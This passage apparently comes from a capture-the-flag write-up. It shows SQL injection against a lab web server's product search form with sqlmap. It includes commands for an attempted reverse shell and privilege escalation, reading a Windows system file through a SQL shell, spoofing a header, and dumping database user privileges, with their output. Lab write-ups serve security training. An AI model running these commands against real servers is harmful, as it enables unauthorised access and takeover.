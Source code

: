 In order to avoid time-based queries we can use the `--technique BEUS` option.

```
sqlmap -u http://10.10.10.167/search_products.php --method POST -p productName --data 'productName=toto' -H 'X-Forwarded-For: 192.168.4.28' --os-pwn --dbms mysql --tmp-path 'C:/Windows/Temp/' --random-agent --priv-esc --web-root 'C:/Inetpub/wwwroot/' --technique BEUS
```

I tried to get a reverse shell with `--os-pwn` directly but something when wrong
so let's try a more manual approach.

Let's use `--sql-shell` to be able to run some SQL queries.

```
$ sqlmap -u http://10.10.10.167/search_products.php --method POST -p productName --data 'productName=toto' -H 'X-Forwarded-For: 192.168.4.28' --dbms mysql --sql-shell

select load_file('C:/WINDOWS/system32/drivers/etc/hosts'): '# Copyright (c) 1993-2009 Microsoft Corp.\r\n#\r\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\r\n#\r\n# This file contains the mappings of IP addresses to host names. Each\r\n# entry should be kept on an individual line. The IP address should\r\n# be placed in the first column followed by the corresponding host name.\r\n# The IP address and the host name should be separated by at least one\r\n# space.\r\n#\r\n# Additionally, comments (such as these) may be inserted on individual\r\n# lines or following the machine name denoted by a '#' symbol.\r\n#\r\n# For example:\r\n#\r\n#      102.54.94.97     rhino.acme.com          # source server\r\n#       38.25.63.10     x.acme.com              # x client host\r\n\r\n# localhost name resolution is handled within DNS itself.\r\n#\t127.0.0.1       localhost\r\n#\t::1             localhost\r\n'
```

With `select load_file('C:/WINDOWS/system32/drivers/etc/hosts')` it try to see
if we can read files and it's working!

```
[17:26:33] [INFO] fetching SQL SELECT statement query output: 'select user()'
select user(): 'manager@localhost'
```

The current user is `manager`.

```
[17:35:28] [INFO] fetching SQL SELECT statement query output: 'select version()'
select version(): '10.4.8-MariaDB'
```

The MySQL implementation is MariaDB.

Let's check the users' privileges.

```
$ sqlmap -u http://10.10.10.167/search_products.php --method POST -p productName --data 'productName=toto' -H 'X-Forwarded-For: 192.168.4.28' --dbms mysql --privileges

[17:52:11] [INFO] fetching database users privileges
database management system users privileges:
[*] 'hector'@'localhost' (administrator) [29]:
    privilege: ALTER
    privilege: ALTER ROUTINE
    privilege: CREATE
    privilege: CREATE ROUTINE
    privilege: CREATE TABLESPACE
    privilege: CREATE TEMPORARY TABLES
    privilege: CREATE USER
    privilege: CREATE VIEW
    privilege: DELETE
    privilege: DELETE HISTORY
    privilege: DROP
    privilege: EVENT
    privilege: EXECUTE
    privilege: FILE
    privilege: INDEX
```